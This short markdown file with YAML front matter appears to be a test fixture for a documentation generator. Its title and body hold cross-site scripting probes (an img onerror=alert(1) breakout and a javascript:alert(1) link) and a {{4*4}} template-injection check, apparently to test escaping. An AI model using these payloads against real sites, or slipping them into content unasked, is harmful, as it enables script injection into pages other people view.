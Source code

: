 ```yaml
---
group: Intro
weight: 2
title: '"><img src=/ onerror=alert(1)> {{4*4}}'
---
```

<javascript:alert(1)>"><img src=/ onerror=alert(1)> {{4*4}}

`"><img src=/ onerror=alert(1)> {{4*4}}`"><img src=/ onerror=alert(1)> {{4*4}}